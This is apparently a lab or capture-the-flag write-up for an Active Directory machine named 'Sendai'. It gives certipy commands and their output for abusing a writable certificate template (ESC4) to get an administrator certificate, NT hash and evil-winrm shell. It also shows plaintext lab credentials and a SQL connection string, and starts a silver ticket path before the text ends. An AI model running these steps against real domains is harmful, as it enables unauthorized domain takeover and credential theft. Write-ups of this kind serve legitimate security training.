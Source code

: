 [https://www.thehacker.recipes/a-d/movement/ad-cs/access-controls#certificate-templates-esc4](https://www.thehacker.recipes/a-d/movement/ad-cs/access-controls#certificate-templates-esc4)

```bash
certipy template -u 'Clifford.Davey'@'sendai.vl' -p 'RFmoB2WplgE_3p' -dc-ip '10.10.96.234' -template SendaiComputer -save-old

[*] Saved old configuration for 'SendaiComputer' to 'SendaiComputer.json'
[*] Updating certificate template 'SendaiComputer'
[*] Successfully updated 'SendaiComputer'
```
```bash
certipy req -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -ca 'sendai-DC-CA' -dc-ip 10.10.96.234 -target dc.sendai.vl -template 'SendaiComputer' -upn administrator -debug

[+] Trying to resolve 'dc.sendai.vl' at '10.10.96.234'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.96.234[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.96.234[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
```bash
certipy auth -pfx administrator.pfx -domain sendai.vl

[*] Using principal: administrator@sendai.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:cf[...]7a
```
Then we can evil-winrm 

```bash
evil-winrm -u 'Administrator' -H 'cf[...]7a' -i 10.10.96.234
```
## Other way to privesc, Silver Ticket + SeImpersonatePrivilege

```bash
cme smb 10.10.96.234 -u 'Elliot.Yates' -p 'Tata01!' --shares

[+] config READ,WRITE
```
So as you can see when we had our first 2 users, it was possible to read in the smb 'config', this directory contains a file '.sqlconfig' in which we find this :

```console
Server=dc.sendai.vl,1433;Database=prod;User Id=sqlsvc;Password=SurenessBlob85;
```
So we can use this to make a silver ticket 
